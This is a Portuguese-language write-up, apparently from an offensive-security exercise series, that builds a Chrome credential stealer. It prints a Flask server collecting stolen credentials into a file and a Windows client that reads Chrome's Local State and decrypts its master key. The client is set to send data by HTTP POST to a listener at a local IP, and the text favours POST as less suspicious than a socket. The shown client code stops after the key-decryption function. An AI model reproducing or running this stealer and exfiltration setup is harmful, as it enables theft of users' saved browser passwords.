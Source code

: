 Isto finaliza as tasks 11 e 12.

## Task \x0d

Esta task deixa as coisas muito mais interessantes, pois vamos utilizar todo o exploit feito para salvar as credenciais do `Chrome` via socket, e fazer com que o envio seja feito via `POST`.

Sem contar que uma requisição POST vinda do client, é muito menos "suspeita" do que uma requisição via socket.

O script do lado server, não muda em quase nada, tirando que agora coloquei a API para rodar na porta 443:

```python
#!/usr/bin/python3

# importando as bibliotecas
from flask import Flask, jsonify, request, render_template
import json

app = Flask(__name__)

def log(buffer):
    with open("creds.txt", "w") as log:
        for i in buffer:
            log.write(i)

# definindo a rota para o POST
@app.route('/', methods=['POST'])
def add_dados():
    recv = request.get_json()
    log(json.dumps(recv, sort_keys=True, indent=4))
    return '', 202

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=443)
```
Já o script do client, vai permanecer com a mesma mecĉanica para o dump e tratamento dos dados das credenciais, porém, alteramos o metodo de socket para request:

```python
import sys
import os
import json
import base64
import sqlite3
import win32crypt
from Cryptodome.Cipher import AES
import shutil
import requests

host = r"http://192.168.1.7:443/"
headers = {"content-type": "application/json"}

#diretorio dos arquivos Chrome
path = os.path.expanduser('~') + r"\AppData\Local\Google\Chrome\User Data\\"

# Capturar e decriptar a master key
def master():
    with open(path + r"Local State", 'r') as f:
        local_state = f.read()
        local_state = json.loads(local_state)
    key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])
    key = key[5:]
    key = win32crypt.CryptUnprotectData(key, None, None, None, 0)[1]
    return key
```